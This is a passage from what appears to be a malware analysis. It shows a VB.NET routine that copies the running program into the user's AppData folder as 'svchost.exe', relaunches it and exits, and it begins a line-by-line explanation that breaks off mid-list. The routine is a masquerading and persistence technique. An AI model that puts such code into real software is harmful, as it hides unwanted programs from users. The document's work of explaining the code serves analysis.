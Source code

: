 ```vbnet
Private Shared processName As String = "svchost.exe"

Private Shared Sub copyRoaming(processName As String)
	Dim friendlyName As String = AppDomain.CurrentDomain.FriendlyName
	Dim location As String = Assembly.GetExecutingAssembly().Location
	Environment.GetFolderPath(Environment.SpecialFolder.Startup) + "\" + friendlyName
	Dim text As String = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\"
	Dim text2 As String = text + processName
	If friendlyName <> processName OrElse location <> text2 Then
		If Not File.Exists(text2) Then
			File.Copy(friendlyName, text2)
			Dim processStartInfo As ProcessStartInfo = New ProcessStartInfo(text2)
			processStartInfo.WorkingDirectory = text
			If New Process() With { .StartInfo = processStartInfo }.Start() Then
				Environment.[Exit](1)
				Return
			End If
		Else
			Try
				File.Delete(text2)
				Thread.Sleep(200)
				File.Copy(friendlyName, text2)
			Catch
			End Try
			Dim processStartInfo2 As ProcessStartInfo = New ProcessStartInfo(text2)
			processStartInfo2.WorkingDirectory = text
			If New Process() With { .StartInfo = processStartInfo2 }.Start() Then
				Environment.[Exit](1)
			End If
		End If
	End If
End Sub
```


This code defines a private shared subroutine named `copyRoaming`. Its purpose is to copy the current executable to a specific location and potentially start a new process from that location :

1.  **Obtaining the Name and Location of the Current Assembly**:
    
    -   `Dim friendlyName As String = AppDomain.CurrentDomain.FriendlyName` gets the name of the currently running application.
    -   `Dim location As String = Assembly.GetExecutingAssembly().Location` gets the path of the current executable.
2.  **Path Definitions**:
    
    -   The user's startup path is constructed but not used: `Environment.GetFolderPath(Environment.SpecialFolder.Startup) + "\" + friendlyName`.
    -   `Dim text As String = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\"` sets the path to the user's Application Data folder.
    -   `Dim text2 As String = text + processName` creates a full path for a potential copy of the executable.
3.  **Checking and Copying the Executable**:
    